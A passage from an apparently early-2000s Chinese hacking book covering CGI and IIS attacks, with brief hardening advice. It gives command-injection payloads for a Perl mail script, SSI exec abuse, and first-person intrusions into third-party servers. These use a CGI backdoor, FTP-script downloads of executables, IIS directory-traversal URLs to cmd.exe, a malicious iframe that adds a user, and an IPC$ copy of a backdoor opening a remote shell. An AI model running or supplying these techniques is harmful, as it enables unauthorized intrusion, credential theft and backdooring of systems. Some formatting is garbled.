举例来说，很多因素使得CGI程序能被自由地利用。如果你从某站点下载了一段perl scripts，也许你没经过任何思索就加以利用，并且希望它没有任何BUG。同时大多数人并没有充足的时间和足够的知识去将一段5000行的公告板代码逐行检查以期发现一个可能招致攻击的漏洞。现在，一些大型的、专业的script包最近也被发现存在安全漏洞。

#### 三、攻击准备

如果你知道一个站点使用的脚本是自由获得的，那还说什么呢？先取得程序，在你自己的机器上运行，审查代码，也许你就能很容易地发现一些漏洞，而且你的行动也不会被管理员发现。

#### 四、攻击方法

很多语言都能写CGI程序，但是最普遍的是Perl。如果程序没有认真地检测用户输入的合法性，那么一个怀有恶意的用户就能使程序的执行具有一定的危险性。我们来讨论下面这个例子：有一个著名的“邮件”脚本，它的主要任务是把访问者填写的表单发送到webmaster的邮箱。

由于代码比较长，我们将其发到光盘，路径如图所示：
以上这个例子包括两段程序。Html段负责提交用户的输入，并且也是易受攻击的。如果你不了解Perl，那么你也没必要知道它的原理。你只要知道目的E-mail地址（就是在html页面被声明为hidden的元素）和你输入的内容（根据textarea的输入）被保存，然后在“active”部分向“邮件”程序提交就可以了。

在Perl程序中，open函数的用处是打开文件，但是这里更重要的是管道符。在这句话中，指向命令“/bin/mail webmaster@vulnerable.com”的管道被打开，你在Html页面填写的内容被发送到指定的webmaster邮箱中去了。

看看发生了什么？“/bin/mail webmaster@vulnerable.com”命令是由你在html页面提交表单时激活的。如果一个恶意的用户在本地保存并改装了表单如下：

```
把
html
<form action="/cgi-bin/vuln1.pl" method="GET">
    <input type="hidden" name="address" value="webmaster@vulnerable.com">
```

改为

```
html
<form action="http://www.vulnerable.com/cgi-bin/vuln1.pl" method="GET">
    <input type="hidden" name="address" value="hacker@root.com">
```

注意：如果html页面没有驻留在服务器，你必须在"action"中填写完整的URL。现在，提交的E-mail地址被改成了你自己的E-mail地址，你的提交内容也就发送到了自己的E-mail里去了。

如果你如下改变表单，试想会发生什么？value="hacker@root.com;mail hacker@root.com在script程序中，这样的E-mail地址将被解析为：/bin/mail hacker@root.com;mail hacker@root.com（注意：这里我虽然用 /etc/passwd，但是这仅仅是个说明原理的举例。现在大多数系统的passwd文件对于入侵者来说都不会包含有效的密码信息）。如果你发现Script程序过滤“;”，你可以试“|”符号，或者用“\n”来换行，这样做的目的是重新运行命令按你的意图执行。记住：使用“|”将使第一条命令的输出回传给第二命令，并且，在Web上发送换行符你需要用到的是“%0a”。于是，地址部分现在变成了：

```
text
value="hacker@root.com%0amail hacker@root.com"
```

#### 五、SSI的危险应用

SSI就是英文“Server Side Includes”的缩写。SSI是一些能放在html中的，被服务器解析的指令。这些页面通常都支持扩展的.shtml（或者更低的版本），不过这还是要看服务器的设置。有些服务器对所有的html都解析，应该包括下面这种形式的表单：“<!--#<tag><whitespace><parameters>[<whitespace>]-->”。这里有一些例子：

```
html
<!--#echo var="DATE_GMT" -->        Prints the current date.
<!--#include virtual="/ssi/header.html" -->    Includes a common header section
<!--#exec cmd="uptime" -->    Displays the system's uptime



```

如果你可以让服务器解析你自己写的SSI，那么你就能够执行命令和其他的一些动作了。很多CGI程序都没有考虑这些东西，比如这里有一个例子：

由于代码比较长，我们将其发到光盘，路径如图所示：
这里的两段代码其实是一个简单的留言板，你可以发现，shtml文件用SSI来显示页眉和页脚。当我们浏览网页的时候，SSI所指向的代码将会被执行（在.shtml文件中用<!--#begin---->标记的地方，其后的内容都将被认为是SSI指令而执行，每条指令都是以<!--#开始）。

然后，等你回到页面上，你就可以看到你所需要的密码文件了（密码文件可能是很长的一行文字——这是因为html没有在该换行的时候插入换行符。你可以通过浏览器的“查看源文件”来查看）。

这一切都是我们所希望的，但是，很多服务器都屏蔽了exec指令来防止这类攻击。在以上的例子中，你最多能做到的就是用include指令来取得一个你所知道路径的文件内容，像密码文件对于你的当前权限来说可能不可访问。有的文件（比如CGI Scripts）不会因为include调用而暴露它们的源码。从入侵者的角度来看，include指令的价值并不是很大，如果不能exec，那你能做的就更有限了。

#### 六、缓冲区溢出

这是针对C写的CGI程序。如果CGI程序没有验证用户输入的合法性，那么一个恶意的用户就能利用缓冲区溢出漏洞在服务器上执行其他的代码，因为缓冲区溢出的问题超出了这篇文章的主题，我就不做详细说明了。

#### 七、你可以做些什么

首先，不要立刻拿出 `rm -Rf/` 命令，如果你注意到我说的——对站点的破坏是很可耻的行为。另外，你也应该清楚自己所做是否合理。你应该做的是将你发现的漏洞通过邮件告诉系统管理员——如果他们称职的话，他们就应该修补这个漏洞，如果被你发现漏洞的CGI程序广泛存在，那么你应该把它告诉CGI程序的开发者，以便在以后的版本中不再出现，并向现存的用户发出警告。

#### 八、注意

在这篇文章中，我使用了Unix作为例子。我在此讨论的大多数方法同样适用于NT和其他的平台。在这里我以Perl scripts作为例子。如果你并不了解perl，那么你只要注意到标识了 “active” 的部分，因为这些是真正包含了对于你来说可以利用的代码。如果你在测试中遇到了一些困难，请注意，你的路径设置是否正确；使用chmod 755命令使你的CGI Scripts可执行；在每个Script的第一行是否包括了perl正确的编译路径；在SSI的例子中，你有必要使用到chmod vuln2.shtml 777命令。

这些只是一些简单的例子。很多时候需要你自己做一些分析和测试的工作来发现问题。

### 4.3 活用CGI漏洞

闲来无事，在网上游荡，偶遇一优秀下载站点http://www.***.com（网站地址不能公布，用“*”代替）。点击一个下载连接，“付费下载”这个令我极为反感的字眼突然出来。在我的人生字典里面，凡是网络上面的东西都应该是完全免费的！

我简单的进行了一下端口扫描。80，21，3306只开了三个端口。80不用说了，21是FTP端口，3306是MYSQL端口。这台机器服务如此之少，看来有些棘手。先判断一下对方是什么系统，判断系统我建议还是手动完成，用扫描工具，我个人认为不是很准确。简单说一下如何判断对方的系统吧。一般判断的方法是Ping一下看TTL返回值、开放的端口以及端口信息等等。从TTL来看，一般默认情况下，WinNT/2000的系统是在100左右，UNIX系统在200左右或更多，但是TTL的值可以任意修改的。所以，光看TTL是不够的。下一步呢，看看主机都开了什么端口，WinNT/2000一般开的端口有135、139（共享端口）、3306（MYSQL端口）、1433（MS SQL端口）和3389（计算机终端服务端口）；UNIX系统，一般有23（TELNET端口）、79（finger端口）和1521（oracle端口）。接下来就是看看端口信息了。从FTP端口和Web端口反馈的信息中可以判断是什么系统。我们打开CMD窗口，输入telnet www.***.com 80。然后输入GET，显示：

```
text
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Thu, 04 Apr 2002 07:54:42 GMT
Content-Type: text/html
Content-Length: 87

<html><head><title>Error</title></head><body>The parameter is incorrect.</body></html>
```

遗失对主机的连接。
```

这说明是一台Windows2000，IIS5的机器。但是它的服务如此之少，也真不太好办。回过头来再看看站点的首页有什么栏目，发现一个个链接都是指向guest.asp?id=32什么的，原来都是ASP的脚本，从端口判断1433端口没有打开。所以说ASP程序根本不是挂的MS SQLServer，有可能是使用的MY SQL。这意味着不能用MS SQLServer调用CMDSHELL。哎，这可怎么办？唉，到头来还是慢慢再研究一下脚本吧。

首页还有什么栏目呢？留言板、BBS、聊天室、新闻，等等……简单的看了一下，都是用免费的脚本，看看它BBS是什么的脚本，要是用的LB5K就好了，那个CGI脚本最近可是出现了不少的漏洞呀（注：该脚本部分漏洞可以到本人的个人主页上索取http://adver.cn.st或到分析家的站上索取http://www.china4lert.org）。事与愿违，我发现它的BBS的脚本用的是动网先锋的。有的时候，一些网管安装完论坛后，忘记将install.asp这个安装脚本删掉，从而让一些人有机可乘。我就试试http://www.***.com/bbs/install.asp。这时候显示：无法找到网页 您正在搜索的网页可能已经删除、更名或暂时不可用。这时我心中有些不耐烦了，突然想到动网的BBS是用的Access数据库，而这个BBS用的是MYSQL的。灵感突现，我怎么忘了试试它的MYSQL有没有漏洞？马上动手连接MYSQL。

在CMD下输入mysql -h www.***.com -uroot

显示：

```
text
C:\>mysql -h www.***.com -u root
ERROR 1045: Access denied for user: 'root@localhost' (Using password: NO)
```

连ROOT空密码都补上了，这时候有些灰心，再来输入C:\>mysql -hwww.***.com -uguest

显示：

```
text
C:\>mysql -hwww.***.com -uguest
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 3 to server version: 3.23.38-nt

Type 'help;' or '\h' for help. Type '\c' to clear the buffer
```

OK，大功告成。现在咱们再从Web吐出那个CGI后门。

```
http://www.***.com/guestbook/shit.cgi?dir c:\

c:\ 的目录

2002-03-23 18:33    <DIR>          Documents and Settings
2001-08-13 14:46    <DIR>          I386
2002-03-15 08:24    <DIR>          Inetpub
2002-03-23 18:33    <DIR>          Program Files
2002-03-23 18:33    <DIR>          WINNT

0 个文件                0 字节
5 个目录    1,135,837,696 可用字节
```

哈哈，咱们已经可以执行CMDSHELL了，不过是IUSR权限。我们可以用echo的方法写一个FTP的脚本来上传文件，也可以利用TFTP的方法直接上传。

在此，我只说一种方法，只要我们依次输入：

```
http://www.***.com/guestbook/shit.cgi?echo open www.xxx.com>>ftp.txt
http://www.***.com/guestbook/shit.cgi?echo open anonymous>>ftp.txt
http://www.***.com/guestbook/shit.cgi?echo open a@>>ftp.txt
http://www.***.com/guestbook/shit.cgi?echo open get abc.exe>>ftp.txt
http://www.***.com/guestbook/shit.cgi?echo open bye>>ftp.txt
```

这样，我们就写好了一个FTP脚本。再用FTP -S的参数调用这个脚本：

```
http://www.***.com/guestbook/shit.cgi?ftp -s:ftp.txt
```

这样，我们就可以上传文件了。

想提升到ADMIN也不是很困难的事。我们知道ISNO曾写的一个IIS权限提升工具。我们只要上传一个idq.DLL文件，再用ispc.exe连它就可以了。千万记住：idq.dll目录必须放在可执行目录里面，或用Windows2000的那个新漏洞通过句柄提升权限。这个工具在“安全焦点”（http://www.xfocus.net）可以下载到，里面说明写得很清楚。我想已经没有必要再多说什么了。到这里，这台机器已经全完受你控制了。接下来做后门，不用我教大家了吧？我想大家各自都有自己独特的见解了。欢迎大家来信与我一起交流技术adver_zh@sohu.com。

### 4.4 增强CGI程序安全性的一点想法

前些日子LB5K出了很多问题，其中之一就是《怎样利用Perl CGI和LB5K的缺陷攻击远程服务器》中所提到的，解决的方法也很简单，主要有两种；其中一种是为用户目录指定合适的权限，另一种则是将用户目录保存在Web目录之外，显然这两种方法都可行。

以上两种方法很有效，操作也非常简单。但是既然编写程序，就应该最大限度的方便用户，难道你指望使用你的程序的人都是配置高手？显然这不大现实，我们还是从程序本身来加强安全性吧！

这里我要向大家介绍另外一种比较另类的解决方法，值得一提的是，本文的灵感来自于LB5K最新版的一些创意，好了，我们开始吧！

声明：本文只是一个构思，没有实践过，也许根本就无法实践，但是我觉得这种思路还是有可以借鉴的。

[PAGE 99]

的东西。

#### 增强目录安全性

这里我们主要是引入一个“动态”的概念，因为动态相对静态来说，更不容易猜测和捕捉。这就要求目录名是随机的，并且时刻在变化。要满足前者很简单，我们只需要一个随机数生成器，当然，为了能够识别该目录。

目录名需要有一个不变的前缀（当然也可以是后缀）。至于后者，我们只需要在每次响应用户请求时都调用改变目录名的函数即可。

为了实现这些功能，我们需要增加如下两个函数：

+   - 获得目录函数：返回所需目录名
-   改变目录函数：生成随机数，重新构造目录名

我们假设CGI程序的根目录为“$cgidir”，需要保护的目录名前缀为“$dir”，随机数为6位数字，然后给出下面简单的函数示例：

```
perl
sub get_dir {
    my ($cgidir, $dir) = @_;
    opendir(CGDIR, "$cgidir/");
    my @files = readdir(CGDIR);
    closedir(CGDIR);
    my @dir = grep(/^$dir[0-9]{6}/, @files);  # just a demonstration, not the real words
    @dir = sort(@dir);
    return $dir[0];
}

```

```
perl
sub rename_dir {
    my ($cgidir, $dir) = @_;
    srand;
    $digit = rand;
    $digit = int($digit*100000);
    $digit = sprintf("%06d", $digit);
    rename("$cgidir.$dir", "$cgidir.$dir.$digit");
}

```

前一个要求看来已经满足了，那么如何实现后一个要求呢？

我们可以考虑在每个CGI文件的前面增加函数rename_dir()，在对目录进行操作之前调用函数get_dir()，为了对抗穷举攻击，我们还应该在没有缺省CGI文件的目录下增加“index.cgi”或“default.cgi”文件，并在其中增加rename_dir()函数。

这样，上面的两个要求我们就基本满足了。

#### 增强文件安全性

目录已经比较安全，对于文件就可以简化一些，我们只要在创建文件时生成一个随机的后缀即可。这样做应该可以增加CGI程序的安全性，但是也会带来一个坏的影响，那就是降低性能，所以需要在安全性和性能之间做一个权衡。

另外，在为目录命名时要保证其相异性，即某个目录名不可能是其它目录名的子集。另外，对于目录名或文件名的长度一定要增加限制，还要注意操作系统对目录名或文件名的命名规范，过滤那些可能造

[PAGE 100]

成麻烦的有害字符。

由于时间仓促和能力所限，文中肯定有不少错误，希望不吝赐教。

### 4.5 检测朋友网站的安全性

“嗨！null有空来我的站上捧捧场，www.***.com。”朋友从QQ上面突然传过来一句话(为了不引起麻烦，文中网址地址用***代替)。

“好，一定，马上去：）”我回答到。

“顺便帮我看看我做的站安全不？”他又说道。

“OK。”我回答。

其实不用他说，我也会习惯性的看看站点的安全性。我登陆他的站点一看，做得不错，界面挺漂亮的，是他们当地的一个很出名的社区，日访问量达到了6000IP，同时在线人数也在几百IP左右。在CMD下Ping了一下，返回值TTL=113，判断是NT/2K，再做进一步的判断，从FTP和80端口的返回信息来看吧。

```
text
C:\>ftp www.***.com
> ftp: connect：连接被拒绝
ftp>
```

连FTP都不开，用什么上传网页和维护呀？也许他把FTP改了端口，我心里想。

来，再看看Web信息吧。

```
text
c:\>telnet www.***.com 80
GET
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/4.0
Date: Sat, 27 Apr 2002 03:00:48 GMT
Content-Type: text/html
Content-Length: 87

<html><head><title>Error</title></head><body>The parameter is incorect.</body>
</html>
```

NT4.0的机器，太古老了吧？

我便问朋友：“你那台服务器是NT4.0的机器吧；是不是有些太老了？如果用Windows系统的话，起码也要安2K呀。”

他回答说：“我的服务器一直是4.0的，一直没有什么事。自打上回我安2K，就让人家黑过我一回，我就又改回NT4.0，再也不敢安2K了。”

他又说：“麻烦你了，再帮我看看。”

我说：“OK，没问题。”

接着我扫描了一下那台机器的几个基本服务端口，扫完才知道只开了135,139,80这三个端口。这下麻烦大了，服务少得可怜，用IPC跑密码根本不大现实。回过头来还是看看他站上有没有脚本漏洞吧。总体看了一下，有上传功能的只有一个照片上传，而且做得很好，根本没有绕过判断上传其他文件的可能。再看看其他的脚本、论坛、留言板、聊天室，全部用的都是网上免费的脚本程序。我就不喜欢用那些免费的脚本，免费脚本存在的问题很多，而且一旦发现重大漏洞后果不堪设想。

[PAGE 101]

先从大的来。看看BBS：BBS的脚本是UT的。这个论坛脚本很安全，到目前还没有人发现过什么漏洞。简单看了看之后，对他的论坛不抱太大的希望。还是看看其他的脚本程序。

聊天室的脚本也是CGI，一般聊天室的脚本没有什么漏洞，即使有漏洞也没有可以危害到他主页的。接下来的脚本程序只剩下那个留言板了。他留言板的脚本很漂亮，是Foolish Guestbook 3.0的，这个留言板我从来没有用过。于是到google.com搜索那个脚本程序。Down下来在自己的机器上面安装调试一下，看看是如何工作的。里面包括这几个文件：

+   - main.htm
- error.htm
- manage.htm
- succ.htm
- guestbook.txt
- a.gif
- b.gif
- c.gif
- back.gif
- fguest3.cgi
- config.txt
- readme.txt

看到那个config.txt的文件了吗？这里面一定是留言板的基本配置文件。打开一看，果然是，不过最让我不敢相信的是连密码都写在那里面了。大家看这行：

```
perl
$manage{'foolfish'}="aaaaa";  # 管理员的ID,密码
```

天呀，不会吧？如果是这样的话，不就是等于把管理员密码直接给别人了吗？试试我朋友的那个站上是不是这个样子的。正上调出那个config.txt看看：

http://www.***.com/cgi-bin/fguest3/config.txt

果不其然，真的直接读出了管理员密码。那个配置文件如下：

```
perl
# 路径设置（必须）
$cgiurl = "/cgi-bin/fguest3/fguest3.cgi";    # guestbook.pl 所在地址
$homepage_ = "/";    # 你主页首页地址
$fileurl = "";    # 图片所在地址，与程序放在一起的话别改它
$filehead = "E:\\web\\cgi-bin\\fguest3\\";    # 页面文件所在绝对路径
# 各项参数设置（可选，注意修改密码）
$allow_html = 1;    # 使用html语法 1=允许 0=不允许
$perpage = 20;    # 每页留言数
$manageperpage = 20;    # 管制模式时每页留言数
$manage{'fatfat'}="******";    # 管理员的ID,密码（注：这里我把密码改掉了）
$sendtomaster = 1;    # 当有新留言时寄E-mail通知版主 1=启动 0=不启动
$masteremail = "110@bigfoot.com";    # 版主信箱
$mailprg = "/usr/sbin/sendmail -t";    # Server发送信软件的位置 通常用此默认路径
$fromemail = "110@bigfoot.com";    # 送信返回信箱
```

这个懒人，这么大的漏洞怎么不知道修改一下呢？根据上面所看到的，他的Web目录都出来了。最令人不可忍受的是他居然让留言板支持HTML。如果有人写JAVA程序或是恶意代码的话，后果大家都很清楚。接着我就用这个用户的密码试这个站上其他的脚本程序的管理密码。看看是不是一个，能否进入管理页面。

试了几个都没有成功。回过头来接着看留言板吧。这个留言板的功能单一，没有上传功能或是其他的什么。也只有那个支持HTML的功能可以利用了。先留个言证明一下他是否支持HTML。于是发了这样的一个留言，在留言处写上`<font size=9>test</font>`，果然字体变得很大。

就在这个时候，QQ又响了起来。“怎么样了，有没有什么漏洞？”我的那个朋友又问我来了。就在这个时候我无意间看到了他的IP就是那个服务器的IP。心想，这小子居然用服务器上网，真有他的。想到这里，如果我利用IE的MIME漏洞写个加用户的程序，然后再在留言板上用iframe标签调出我那个加用户的程序，不直接就可以进去了吗？于是我回答他：“差不多，顺便问你一句，你的IE什么版本？”。“5.0的，怎么了？”他回答。

这时我已经在留言板上留言了，内容上面写到：

```
html
<Iframe src="http://***.***.***.***/abc.eml"
width=0 height=0 ></Iframe>
```

这个功能是只要打开留言板就会自动打开那个abc.eml。abc.eml是我先写好的一个添加用户的程序，然后利用IE的MIME漏洞做成了eml的格式。只要别人打开它，就会自动执行我的那个加用户的程序。

> “你的漏洞我给你写到了留言板上，你自己看看吧！”

“噢。好我这就看。：）”他回答。

一会他回话了：“什么都没有呀，只是屏幕一闪，好像下载了个什么东西似的。”

“这就对了，看看你的机器是不是多了一个名叫NULL的用户。”我对他说。

“好，等我看看。”他刚说完，紧接着就发过话来：“是，你小子怎么干的？快告诉我。”

我就是这么进入朋友机器的，是不是很无聊呀？我想告诉大家的是，任何一个微小的漏洞都会导致很大的危害，请大家注意网络安全。

### 4.6 服务器入侵日记

#### 12日

用流光的"高级扫描工具"扫描新会的一段IP地址，竟然发现不少的主机存在漏洞。我们挑选了"新会网友俱乐部"的主机作试验。这台主机存在几个严重的CGI漏洞，我们就利用其中的一个：

```
text
http://IP/_vti_bin/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+dir%20c:\

```

在浏览器里输入以上URL后，浏览器返回目标主机的C:\下的文件。用：

```
text
http://IP/_vti_bin/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+set

```

找到了它的www的根目录(D:\inetpub\wwwroot\)。

```
text
http://IP/_vti_bin/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+dir+d:\inetpub\wwwroot\

```

看到了几个文件和几个文件夹，进去看看。一个add的文件夹引起了我的注意(add是添加的意思，或许用来添加用户)。进去了，又有几个asp文件和几个数据库文件。

登录http://www.xhclub.com/add/index.htm，页面提示输入管理员的账号和口令，乱试几个(当然进不去)。回过头来，一个叫chkadm.asp的文件有很大可能藏着密码。于是：

```
text
http://IP/_vti_bin/..%255c../..%255c../winnt/system32/cmd.exe?/c+type+d:\inetpub\wwwroot\add\chkadm.asp

```

[PAGE 103]

页面只是返回一些中文信息。看来管理员不笨，给asp代码作了过滤，于是更令我对chkadm.asp的源代码感兴趣，或许真的密码的验证就在这个文件。

我从网上找了许多关于IIS泄漏asp源代码的方法，但没有一个成功。已2点多了，收拾心情，明天再来。

#### 13日

今天，我想了一整天，终于想出一个应该可行的办法。.asp的文件不允许利用浏览器直接下载，但我可以用ren命令把它更名为chkadm.zip，然后下载，为什么昨晚想不到？于是我立即驱"猫"上网，输入：

```
http://IP/_vti_bin/..%255../..%255c../winnt/system32/cmd.exe?/c+ren+d:\inetpub\wwwroot\add\chkadm.asp+chkadm.zip
```

但浏览器返回了些错误信息，再查看add文件夹下的文件，并没发现chkadm.zip。于是我又用

```
http://IP/_vti_bin/..%255../..%255c../winnt/system32/cmd.exe?/c+copy+d:\inetpub\wwwroot\add\chkadm.asp+chkadm.zip
```

浏览器返回0 copy file。看来，这个管理员真的不懒，给www根目录设了权限。于是我又很失望地下线。

#### 24日

今天，我又去看看那台服务器，http://IP/_vti_bin/..%255../..%255c../winnt/system32/cmd.exe?/c+dir+c:\，真的很无聊。我突然想看看它的programfiles文件夹，看看安装了什么软件，于是：

```
http://IP/_vti_bin/..%255../..%255c../winnt/system32/cmd.exe?/c+dir+c:\program'1\
```

（因为dos只支持8个字符的文件名）

目录也很多；找了一会，看见一个G6FTPSever的文件夹，我知道这是一个FTP服务器软件，进去看看，有几个.ini文件，最引起我注意的是users.ini！于是

```
http://IP/_vti_bin/..%255../..%255c../winnt/system32/cmd.exe?/
c+type+c:\program'1\users.ini
```

IE提示保存文件，保存后打开一看，哇！用户名和口令都是没有加密的，用这些账号和口令都可以登录它的FTP服务器。进去后，我尝试更改它的文件名，竟然成功了。此时，我可以更改它的主页了，但我没有这样做。接着，我上传了个cmd.asp页面（可以直接在页面里执行命令，但上传后不能显示该页面，也许管理员禁止了脚本调试）。今天总算有些成果了，如图4-6-1。



图4-6-1

#### 29日

今天，我又上网，用FTP可进入add文件夹，把它的chkadm.asp下载下来，用记事本打开一看，里面没有账号和密码信息，只有些asp语句，看来密码应该在那几个数据库文件中，但它们实在太大了，40多M，我舍不得花那么多的时间去下载它们（毕竟我用的是56K Modem啊），更何况我不熟悉数据库，也就此罢了。

#### 30日

今天我再登陆那个服务器http://IP/_vti_bin/..%255../..%255c../winnt/system32/cmd.exe?/c+dir+c:\时，发现竟不能用了，看来管理员已经发现漏洞所在，打了补丁。难道就这样放弃吗？

#### 31日

晚上又去那台服务器看看，打开FTP程序，试试猜密码！原来的账号是XXX，密码是jackyyyxxx（yyy表示字母，xxx表示数字，出于安全考虑，不予公布），就试试jack、jackyyy吧，我很意外，竟然进去了。不要错失时机！我马上做了一个很简单的页面放上去。现在我们可以用http://www.xhclub.com/test.htm查看该页面。

```
net use \\202.104.xxx.xxx\ipc$ "jackyyy" user:"xxx"
```

连接它的隐藏共享（NT主机有C$、D$、E$……和admin$的默认共享，在网上邻居是看不到的。）返回“命令成功完成”。于是传个srv.exe后门过去（在远端主机打开99端口）：

```
copy d:\srv.exe \\202.104.xxx.xxx\admin$
```

（admin$是系统的根目winnt\system32）一会儿屏幕返回：已复制1个文件。用net time \\202.104.xxx.xxx看看远端服务器的时间—凌晨1：00。于是用at命令远程执行srv.exe：

```
net time \\202.104.xxx.xxx
at \\202.104.xxx.xxx 1:02 srv.exe
telnet 202.104.xxx.xxx 99
```

大约过了两分钟，telnet 202.104.xxx.xxx 99。现在我可以通过这个终端来在远端主机上执行任何DOS命令了。不过当我用cd wwwroot时，提示“拒绝访问”，看来管理员真的给wwwroot设了权限。本想传个冰河上去，但还是打消了这个念头。



图4-6-2

#### 总结这次入侵检测

- 首先，应该定期查阅相关的漏洞资料，及时给自己的系统打上安全补丁。
- 应拥有一个安全的密码策略：密码的位数至少8位，而且不应该是纯字母或纯数字，应该是字母加标点，如：1+1=TWO就是一个难猜的密码。
- 对于FTP、TELNET等远程登录必须设置权限。
- 现在许多网站都是使用Windows2000 Server + IIS5+SQL的组合。因此，就必须合理配置好IIS服务（具体细节请参考其他有关书籍）。
- 账号安全。Windows 2000的默认安装允许任何用户通过空用户得到系统所有账号共享列表，这本来是为了方便局域网用户共享文件的，但是一个远程用户也可以得到你的用户列表并使用猜密码或暴力法来破解。现在可以更改注册表Local_Machine\system\CurrentControlset\Control\LSA—Restrictanonymous=1来禁止139空连接。另外，也应禁止管理员从远程登录。
- 日志。日志文件可以忠实记录系统的一举一动（被黑客修改或删除的例外）。但要记住：Win2000的默认安装是不开任何安全审核的！那就请到“本地安全策略”→“审核策略”中打开相应的审核。
- 目录和文件权限。Windows 2000的访问权限分为读取、写入、读取及执行、修改、列目录和完全控制；在默认情况下，大多数的文件对所有用户（EVERYONE这个组）是完全敞开的。这就是说，任何人对这些文件夹都具有访问、控制权限。因此应根据不同的需要进行权限重设。如WWW根目录就不应该允许远程访问。

实际上，安全和应用在很多时候都存在矛盾，因此，需要在其中找到平衡点。如果安全原则妨碍了系统应用，那么，这个安全原则也不是一个好原则。

### 4.7 UT（UltraThreads v5.07）论坛漏洞分析

闲来无事，便看看UT论坛的源代码。本来想先用本机调试一下，进行测试，结果不知道为什么activeperl装完了DBI模块以后，UT还是不能安装，所以只能上网看看别人装好的UT论坛了。在analysist的指点下，终于装上了DBI模块，原来要直接在PERL\BIN目录下输入PPM INSTALL DBI才能进行安装，而不能在PPM>提示符下进行安装，因为这样安装完的模块不完整。在此，给没装上的人一点提示。

